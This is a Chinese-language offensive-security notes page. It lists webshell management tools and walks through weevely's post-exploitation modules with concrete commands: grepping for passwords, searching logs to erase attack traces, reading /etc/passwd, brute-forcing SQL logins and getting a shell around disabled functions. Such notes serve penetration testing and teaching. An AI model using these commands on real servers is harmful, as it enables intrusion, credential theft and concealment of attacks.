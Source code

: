 ### Webshell管理与后渗透工具

|名称|管理端的编程语言|针对目标环境|描述|
|:-------------:|--|--|-----|
|[epinna/weevely3](https://github.com/epinna/weevely3)|python|php|文件管理/HTTP(S) proxy/Bruteforce SQL accounts/Port scan|
|[rebeyond/Behinder](https://github.com/rebeyond/Behinder)|Java|php/Java/.NET|“冰蝎” 动态二进制加密 webshell管理端|
|[ABPTTS](https://github.com/nccgroup/ABPTTS)|python|.jsp .war .aspx|TCP tunneling over HTTP/HTTPS for web application servers. 参考[Black Hat USA 2016](https://www.blackhat.com/us-16/arsenal.html#a-black-path-toward-the-sun) |

#### 后渗透功能

weevely的后渗透功能：
* 信息搜集
    * 使用grep提取各文件中的敏感信息
      * 口令
        * `grep . '^[^*/#]*passw?o?r?d?'`
      * 连接数据库的代码
        * `grep . 'mysql_conn'`
      * 日志 搜索敏感ip以便后续清除攻击痕迹
        * `grep . '209.12.12.12'`
    * SQL交互模式
      * 使用sql_console模块 - 连接mysql 并进入交互模式
        * `sql_console -user USER -passwd PASS123 -host 10.2.3.4` 然后可以使用`show databases;`等进行命令交互。
    * 读取敏感文件
      * 使用audit_etcpasswd模块 - 用不同技术读取passwd文件
        * `:audit_etcpasswd`
    * 暴力枚举登录口令
      * 使用bruteforce_sql模块 - 暴力枚举SQL用户的登录口令
        * `:bruteforce_sql mysql -users USERNAME1 USERNAME2 USERNAME3ROOT -fpwds wordlists/dic.txt`
    * 命令交互
      * 使用audit_disablefunctionbypass模块 - 伪终端命令交互
        * 启动模块`:audit_disablefunctionbypass` 注意：会上传 .htaccess 和 CGI脚本 acubu.ved
        * 可执行系统命令 `ps -aux` `whoami` 等
        * 使用后删除刚才上传的文件 `:file_rm .htaccess` `:file_rm acubu.ved`
        * 如果不清理以上文件则下次可以免上传直接启动终端 `:audit_disablefunctionbypass -just-run http://localhost/acubu.ved`

